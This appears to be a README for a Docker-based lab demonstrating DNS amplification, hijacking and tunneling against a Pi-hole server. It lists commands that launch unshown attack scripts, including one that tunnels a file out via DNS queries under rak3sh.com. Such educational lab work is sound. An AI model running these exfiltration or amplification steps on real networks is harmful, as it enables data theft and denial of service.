 ```
# Container-Based DNS Attacks Demonstration

## Container Setup
- **Pi-hole Server (10.0.0.5):** A container running Pi-hole, acting as the DNS server.
- **DNS Client 1 (10.0.0.2):** An Ubuntu-based container, used as a client or victim in the demonstrations.
- **DNS Client 2 (10.0.0.3):** Another Ubuntu-based container, used as a client or attacker in the demonstrations.

## Overview
This guide provides instructions for demonstrating various DNS attack techniques in a containerized environment. The demonstrations include Amplification Attack, Hijacking, and DNS Tunneling. Please note that these demonstrations are for educational purposes only. Users should proceed with caution and understand the risks involved.

## Prerequisites
- Docker and Docker Compose installed and running
- Relevant Docker containers for the DNS environment set up in a `docker-compose.yml` file

## Starting the Environment
Before beginning the demonstrations, start the environment using Docker Compose:

```bash
docker-compose up -d
```

This command will start all the containers defined in your `docker-compose.yml` file in detached mode.

## Amplification Attack
In this scenario, we demonstrate a DNS Amplification Attack.

1. Execute the DNS Amplification script on DNS Client 2:
   ```bash
   docker exec -it dns-client-2 /bin/bash
   python3 dnsamp.py
   ```

2. Listen for incoming UDP traffic on port 53 on DNS Client 1:
   ```bash
   docker exec -it dns-client-1 /bin/bash
   nc -u -nlvt 53
   ```

## Hijacking
This section demonstrates DNS Hijacking.

1. Execute the DNS Hijacking script on the Pi-hole server:
   ```bash
   docker exec -it pihole /bin/bash
   ./dnshijack.sh
   ```

2. Test DNS resolution to observe hijacking on DNS Client 1:
   ```bash
   docker exec -it dns-client-1 /bin/bash
   nslookup google.com 10.0.0.5
   ```

## DNS Tunneling
Demonstrate DNS Tunneling with the following steps:

1. Execute the DNS Tunneling script on DNS Client 1:
   ```bash
   docker exec -it dns-client-1 bash
   python3 dnstunnel.py to_be_tunneled.txt 10.0.0.5 rak3sh.com
   ```

2. Monitor the Pi-hole logs for tunneling activity on the Pi-hole server:
   ```bash
   docker exec -it pihole /bin/bash
   tail -f /var/log/pihole.log | grep 10.0.0.2
   ```

## Disclaimer
The author is not responsible for any malicious activities arising from the use of this demonstration. This guide is intended for educational purposes only. Users are advised to use this information responsibly and in accordance with applicable laws and ethical guidelines.

## Note
This is a container-based DNS attacks demo. The user should use this at their own risk.
```
